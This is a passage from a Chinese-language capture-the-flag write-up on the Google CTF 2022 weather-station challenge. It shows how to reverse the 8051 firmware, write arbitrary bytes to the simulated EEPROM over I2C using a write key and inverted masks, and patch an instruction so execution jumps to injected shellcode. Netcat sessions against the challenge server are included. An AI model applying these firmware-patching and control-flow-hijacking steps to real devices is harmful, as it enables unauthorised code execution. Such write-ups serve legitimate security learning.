 然后使用IDA解析固件，由于没有ihx中的地址信息，需要手动指定指令集为8051，加载地址为0地址，最终得到的结果与IDA解析本地编译的ihx基本一致。

### 写EEPROM

他这个EEPROM的写就非常的麻烦了，因为他这个模拟的非常真实，把真实EEPROM的物理特性也如实模拟了。即对其写入只能按bit将1写为0，已经被写成0bit的就回不去了。在现实中需要对EEPROM的引脚进行一系列电平操作，即可使其全部bit归1。不过整个固件从0xa02-0xfff地址处全为0xff，因此这段空间可以写入任意数据，也是写入shellcode的最佳位置：

![image](https://xuanxuanblingbling.github.io/assets/pic/google/010.png)

其写入的命令也有些麻烦，首先在数据之前需要加上4ByteWriteKey A5 5A A5 5A，十进制为165 90 165 90。另外根据手册，写入的bit为`ClearMask`，是清0。例如想写入0，则需要把原来的0xff的8个bit全部清零，即11111111，所以写入的数据是目标数据取反，也可以看成255减目标数据。而且经过尝试，在命令行中需要填入十进制，例如255，不能填写如11111111的二进制字符串（ClearMask的误导），最终命令如下：

```c
w 101153 size page 165 90 165 90 (255-byte) (255-byte) (255-byte) ...
```

例如将0xb00（0xb00 // 64 = 44）地址的0xff 0xff 0xff 0xff 写为 11 22 33 44 :

> size可以一直写大一点，例如100：

```c
➜   nc weather.2022.ctfcompetition.com 1337
== proof-of-work: disabled ==
Weather Station
? w 101153 1 44
i2c status: transaction completed / ready
? r 101153 4
i2c status: transaction completed / ready
255 255 255 255 

? w 101153 100 44 165 90 165 90 244 233 222 211   
i2c status: transaction completed / ready
? r 101153 4
i2c status: transaction completed / ready
11 22 33 44 
```

### 控制流劫持

由于shellcode未来将会放在0xa02-0xfff之间，所以我们需要在可运行到代码中patch出一句跳转进行控制流劫持，通过逆向可以发现主要有两种绝对地址的跳转：

- 02 xx xx: ljmp
- 12 xx xx: lcall

结合shellcode的地址，最终的跳转应为：

- 02 0\[a-f\] xx: ljmp
- 12 0\[a-f\] xx: lcall

并且根据写入只能讲1bit写成0bit的约束，找了好久，最终决定在打印命令行提示符问号的这里进行patch：23可以patch成02，7E可以patch成0x0E，即可完成长跳转到0xe00:

![image](https://xuanxuanblingbling.github.io/assets/pic/google/patch1.png)

8051的nop为0字节，所以可以将开头的12 01清成两个nop：

> 12 01 23 7E -> 00 00 02 0E
